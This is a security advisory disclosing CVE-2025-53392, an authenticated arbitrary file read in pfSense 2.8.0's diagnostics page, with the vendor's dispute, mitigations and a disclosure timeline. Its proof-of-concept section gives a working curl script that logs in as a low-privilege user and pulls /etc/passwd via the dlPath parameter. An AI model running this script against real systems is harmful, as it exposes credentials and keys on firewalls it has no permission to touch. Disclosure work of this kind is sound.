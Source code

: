 # Arbitrary File Read in pfSense 2.8.0 via Diagnostics Web Interface

#### CVE ID: [`CVE-2025-53392`](https://nvd.nist.gov/vuln/detail/CVE-2025-53392)

#### Date: 2025-06-27

#### Author: Seth Kraft

#### Vendor Homepage: [https://www.netgate.com/](https://www.netgate.com/)

#### Vendor Changelog: [https://docs.netgate.com/pfsense/en/latest/releases/](https://docs.netgate.com/pfsense/en/latest/releases/)

#### Software Link: [https://www.pfsense.org/download/](https://www.pfsense.org/download/)

#### Version: pfSense CE 2.8.0 (latest stable as of June 26, 2025)

#### CWE ID: [`CWE-36`](https://cwe.mitre.org/data/definitions/36.html) (Absolute Path Traversal)

#### Estimated CVSS Base Score: 5.0 (Medium)

#### Estimated Vector String: `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:N/A:N`

#### Type: Authenticated Arbitrary File Read / Local File Disclosure

---

## Authorization

**For authorized testing and research purposes only.** Do not test or exploit this vulnerability on systems you do not own or have explicit permission to test.

---

## Summary

pfSense CE 2.8.0 contains a Local File Disclosure vulnerability in the diagnostics page `diag_command.php`, which allows authenticated users to download arbitrary files from the underlying file system.

An attacker with privileged web access can supply an arbitrary path in the `dlPath` parameter to exfiltrate sensitive files. 

This functionality lacks any path sanitization, directory restriction, or access controls beyond permission assignment.

---

## Details

The vulnerable logic is located in the file `src/usr/local/www/diag_command.php`:

```php
if ($_POST['submit'] == "DOWNLOAD" && file_exists($_POST['dlPath'])) {
    session_cache_limiter('public');
    send_user_download('file', $_POST['dlPath']);
}
```

There are no security checks or sanitization measures applied to the user-controlled `dlPath` parameter. 

Any file path the PHP process can read will be served back to the user.

---

## Proof of Concept

**Create `low-priv` group and assign a single privilege** (`WebCfg - Diagnostics: Command`)
![Screenshot 2025-06-27 133201](https://github.com/user-attachments/assets/b1063a5c-442a-4628-ac94-e0fa5d6f10c4)

> While I acknowledge the presence of a security disclaimer for the `WebCfg - Diagnostics: Command` privilege, disclaimers alone do not replace sound access control.
> 
> The phrase “Allow access to the Diagnostics Command page” is ambiguous and understates the risk — it enables unrestricted root-level command execution, not just diagnostic access.
> 
> Privilege labels in a web interface must accurately reflect the scope and severity of the actions they permit, especially when they expose full administrative control.

**Assign `low-priv` group to** `dev` **user**
![Screenshot 2025-06-27 133218](https://github.com/user-attachments/assets/7224934e-ae31-4aa1-b879-b4f1aee7e00c)

This proof-of-concept demonstrates a user assigned with only `WebCfg - Diagnostics: Command` permission can exfiltrate `/etc/passwd` by abusing the unsanitized `dlPath` parameter.

```bash
# 1. Start session and extract CSRF token
curl -k -c cookies.txt -s https://<IP>/diag_command.php > login_page.html
csrf_token=$(grep '__csrf_magic' login_page.html | grep 'value=' | sed -E 's/.*value="([^"]+)".*/\1/')

# 2. Authenticate as low-privileged user "dev"
curl -k -b cookies.txt -c cookies.txt \
  -d "__csrf_magic=$csrf_token" \
  -d "usernamefld=dev" \
  -d "passwordfld=pass" \
  -d "login=Sign+In" \
  https://<IP>/index.php > /dev/null

# 3. Get CSRF token post-login
curl -k -b cookies.txt -s https://<IP>/diag_command.php > diag_authed.html
csrf_token=$(grep '__csrf_magic' diag_authed.html | grep 'value=' | sed -E 's/.*value="([^"]+)".*/\1/')

# 4. Exfiltrate arbitrary file (example: /etc/passwd)
curl -k -b cookies.txt -s -X POST https://<IP>/diag_command.php \
  -d "__csrf_magic=$csrf_token" \
  -d "submit=DOWNLOAD" \
  -d "dlPath=/etc/passwd"
```

---

## Demo
![pfSense-authenticated-file-disclosure-poc](https://github.com/user-attachments/assets/0dfe9727-aab4-4b17-bcb9-5a69998549a5)

---

## Impact

Any pfSense user assigned the `WebCfg - Diagnostics: Command` privilege can:

* Read sensitive local system files
* Extract backups, credentials, and keys
* Access files far beyond their intended permissions

This violates the principle of least privilege and breaks logical privilege boundaries.

---

## Suggested Mitigation

1. Restrict `dlPath` to a safe base directory (e.g., `/tmp`) using `realpath()` and prefix enforcement
2. Strip or block paths with `..` or absolute paths
3. Only allow downloads of files in a safelist or temporary artifact directory

---

## Disclosure Timeline

* **2025-06-26:** Vulnerability reported to Netgate
* **2025-06-27:** Netgate responded — dismissing the issue as intended behavior
* **2025-06-27:** Researcher responded with technical rebuttal — vendor reiterated dismissal
* **2025-06-27:** Researcher initiated public disclosure due to final vendor dismissal — requested CVE assignment from MITRE
* **2025-06-28:** MITRE assigned [`CVE-2025-53392`](https://nvd.nist.gov/vuln/detail/CVE-2025-53392) with vendor disputed tag

---
## Official Response from Netgate
![Screenshot 2025-06-27 142702_redacted](https://github.com/user-attachments/assets/4b03ac3d-3feb-471e-8628-582fa3d9ef2e)
> While the vendor asserts that access to this page equates to root, this conflates web-level permissions with unrestricted backend access.
> 
> Privilege should be technically enforced — not assumed — and warnings in the UI are no substitute for secure design.

---

Challenging the vendor's claim that this functionality is "well-documented" — I found no mention in pfSense’s User Privileges documentation that the `WebCfg - Diagnostics: Command` permission equates to root-level access.
![Screenshot 2025-06-28 235613](https://github.com/user-attachments/assets/f1da5050-1820-4e81-b8e7-4dbe3735f2c6)

---

The vendor may have been referring to the Diagnostics Command page, which includes a general warning about misuse. 

But the documentation does not explicitly link this functionality to the `WebCfg - Diagnostics: Command` privilege or clarify that it grants root-level access.
![image](https://github.com/user-attachments/assets/f050cac7-29ed-40f6-9437-972176a5885a)
> Think about it — when would a legitimate user ever need to download `/etc/passwd` through a firewall’s web interface?

---
## Security Expectations for Diagnostic Interfaces
The diagnostics module within the web interface of a firewall should contain proper safeguards to prevent abuse against the underlying operating system.

* Diagnostic commands should be functionally limited to ping, traceroute, log view, etc.
* Commands should run inside a restricted shell or chroot.
* File access should be explicitly scoped to safe directories (/tmp, /var/log).
* Permissions should be fine-grained, and clear in scope.

---

## Why This Research Matters
Before dismissing this research as trivial, understand that efforts like this often spark meaningful dialogue between security and infrastructure teams — leading to RBAC reevaluation, tighter privilege boundaries, and overall more effective approaches to application security.

---

## Disclaimer
This work was conducted outside of my employment and reflects my personal efforts in cybersecurity research.

---
